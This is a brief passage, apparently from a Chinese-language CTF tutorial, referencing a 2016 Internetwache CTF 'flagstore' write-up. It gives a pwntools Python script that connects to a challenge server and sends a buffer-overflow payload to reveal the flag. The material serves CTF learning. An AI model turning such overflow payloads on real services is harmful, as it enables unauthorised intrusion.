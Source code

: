 reference: https://github.com/ctfs/write-ups-2016/tree/master/internetwache-ctf-2016/exploit/flagstore-70

也可以直接通过CTF框架[pwntools](https://github.com/Gallopsled/pwntools)来进行exploit。

```python
#!/usr/bin/env python2
from pwn import *

r = remote('188.166.133.53', 12157)

r.recvuntil('4\n')

r.sendline('1')
r.sendline('A'*499 + '\x00\x01')
r.sendline('A'*8)
r.sendline('2')
r.sendline('A'*499)
r.sendline('A'*8)
r.sendline('3')

print r.clean()
```
